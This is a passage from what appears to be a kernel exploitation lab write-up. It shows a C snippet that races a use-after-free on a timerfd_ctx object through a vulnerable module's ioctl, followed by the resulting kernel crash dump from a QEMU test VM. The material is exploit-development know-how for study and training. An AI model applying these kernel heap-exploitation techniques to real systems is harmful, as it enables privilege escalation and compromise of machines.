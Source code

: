 
### Try #2

Now that the modification is known to occur after a short delay, we can introduce a brief pause before overwriting `timerfd_ctx[0]`, with the goal of racing the kernel’s logic and gaining control over the structure in time.


```c
usleep(20); // 100μs
if (ioctl(vuln_fd, USE_WRITE, uaf_buf) != 0) {
  printf("USE_WRITE failed\n");
  goto cleanup;
}
```

Output:

```c
[+] Press Enter to continue
[    2.592776] input: ImExPS/2 Generic Explorer Mouse as /devices/platform/i8042/serio1/input/input3
[    2.976739] general protection fault, probably for non-canonical address 0xf608c383480b8b58: 0000 [#1] PREEMPT SMP NOPTI
[    2.977266] CPU: 0 PID: 0 Comm: swapper/0 Tainted: G           O       6.6.16 #1
[    2.977491] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS Arch Linux 1.16.3-1-1 04/01/2014
[    2.977819] RIP: 0010:rb_next+0x18/0x50
[    2.978216] Code: 00 00 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 f3 0f 1e fa 48 8b 0f 48 39 cf 74 33 48 8b 57 08 48 85 d2 74 1d 48 89 d0 <48> 8b 52 10 48 85 d2 75 f4 c3 cc cc cc cc 48 3b 78 08 75 15$                                                                                                         48 8b
[    2.978730] RSP: 0018:ff6627f000003f10 EFLAGS: 00010086
[    2.978881] RAX: f608c383480b8b48 RBX: ff13089641987128 RCX: 0000000000000001
[    2.979044] RDX: f608c383480b8b48 RSI: ff13089641987128 RDI: ff13089641987128
[    2.979224] RBP: ff1308964761f220 R08: 0000000000000004 R09: 0000000000000000
[    2.979392] R10: 0000000000000000 R11: ff6627f000003ff8 R12: 0000000000000006
[    2.979579] R13: ff1308964761f220 R14: ff13089641987128 R15: ff1308964761f200
[    2.979767] FS:  0000000000000000(0000) GS:ff13089647600000(0000) knlGS:0000000000000000
[    2.979966] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    2.980109] CR2: f608c383480b8b58 CR3: 0000000001c10000 CR4: 0000000000751ef0
[    2.980321] PKRU: 55555554
[    2.980465] Call Trace:
[    2.981147]  <IRQ>
[    2.981390]  ? die_addr+0x31/0x80
[    2.981515]  ? exc_general_protection+0x1af/0x3d0
[    2.981630]  ? asm_exc_general_protection+0x26/0x30
[    2.981765]  ? rb_next+0x18/0x50
[    2.981850]  timerqueue_del+0x1f/0x50
[    2.981984]  __hrtimer_run_queues+0xdf/0x2a0
[    2.982105]  hrtimer_interrupt+0xf3/0x230
[    2.982219]  __sysvec_apic_timer_interrupt+0x4b/0x140
[    2.982339]  sysvec_apic_timer_interrupt+0x65/0x80
[    2.982561]  </IRQ>
[    2.982624]  <TASK>
[    2.982671]  asm_sysvec_apic_timer_interrupt+0x1a/0x20
[    2.982897] RIP: 0010:default_idle+0xf/0x20
```
